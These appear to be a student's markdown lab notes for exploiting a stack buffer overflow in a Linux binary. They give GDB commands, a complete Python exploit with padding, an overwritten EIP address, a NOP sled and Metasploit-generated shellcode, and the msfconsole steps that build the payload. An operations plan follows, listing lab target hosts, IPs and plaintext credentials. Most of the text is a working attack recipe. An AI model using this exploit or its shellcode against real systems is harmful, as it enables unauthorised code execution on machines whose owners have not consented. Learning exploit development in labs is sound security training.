     https://wiremask.eu/tools/buffer-overflow-pattern-generator/
_____________________________________________________________________________________________________________________
### Run GDB against the program you want to view
#### The disass command to see what the code is performing and the memory spaces
    gdb func
    info proc map
    disass getuserinput                               #This was a function found in the script.
_____________________________________________________________________________________________________________________
### Create a python script to run against the program in gbd.
#### Buffer to see when the program breaks, EIP to jump to the point in memory, nop sled to push your code into executable space in memory, print to view the output as you update the script. THIS SCRIPT IS FULLY UPDATED!
    buffer = "A" * 62
    
    #eip = "BBBB"
    eip = "\x59\x3b\xde\xf7"
    
    #0xf7de3b59 "\xf7\xde\x3b\x59" "\x59\x3b\xde\xf7"
    #0xf7f588ab "\xf7\xf5\x88\xab" "\xab\x88\xf5\xf7"
    #0xf7f645fb "\xf7\xf6\x45\xfb" "\xfb\x45\xf6\xf7"
    
    nop = '\x90' * 5
    
    buf =  b""                                                            #This is gotten from the msfconsole
    buf += b"\xd9\xc6\xba\x7b\x1d\x43\x22\xd9\x74\x24\xf4\x5e"            #commands that were ran below!!!!!!
    buf += b"\x31\xc9\xb1\x0b\x83\xc6\x04\x31\x56\x15\x03\x56"
    buf += b"\x15\x99\xe8\x29\x29\x05\x8a\xfc\x4b\xdd\x81\x63"
    buf += b"\x1d\xfa\xb2\x4c\x6e\x6c\x43\xfb\xbf\x0e\x2a\x95"
    buf += b"\x36\x2d\xfe\x81\x4e\xb1\xff\x51\x26\xd9\x90\x30"
    buf += b"\xa5\x70\x6f\xe4\x66\x0b\x8e\xc7\x09"
    
    print(buffer + eip + nop + buf)
_____________________________________________________________________________________________________________________
### Open the gdb enviroment to unset the memory.
#### Use the find command to locate the memory thats vulnerable to update your script.
    env - gdb func
    show env
    unset LINES
    unset COLUMNS
    find /b 0xf7de2000 , 0xf7ffe000 , 0xff , 0xe4
_____________________________________________________________________________________________________________________
### Open gdb against the program func
#### This is for testing the script continuously as you UPDATE IT.
    gdb func
    run <<< $(python test.py)                     #The name of the script is test.py
_____________________________________________________________________________________________________________________
### Run msfconsole to get the shellcode to run the command in the script.
#### step will take several attempts of running the last command and pasting into script.
    msfconsole
    use payload/linux/x86/exec
    show options
    set CMD whoami
    show options
    generate -b "\x00" -f python                  #copy the output and place into python script may take a few tries.
_____________________________________________________________________________________________________________________
# Scheme of Maneuver:
## >Jump Box
### ->T1: 192.168.28.111
### ->T2: 192.168.28.105

## >Jump Box
### ->donovian_grey_host
#### -->T3: 192.168.150.245

#### Target Section:

## T1
### Hostname: Donovian_Webserver
#### IP: 192.168.28.111
#### OS: CentOS
#### Creds: comrade :: StudentWebExploitPassword
#### Last Known SSH Port: 2222
#### Action: Exploit binary.

## T2
### Hostname: Donovian-Terminal
#### IP: 192.168.28.105
#### OS: unknown
#### Creds: comrade :: StudentReconPassword
#### Last Known SSH Port: 2222

## T3
### Hostname: unknown
#### IP: 192.168.150.245
#### OS: unknown
#### Creds:unknown
#### Last Known SSH Port: unknown
#### PSP: Unknown
#### Malware: Unknown
#### Action: Exploit a network service on the machine
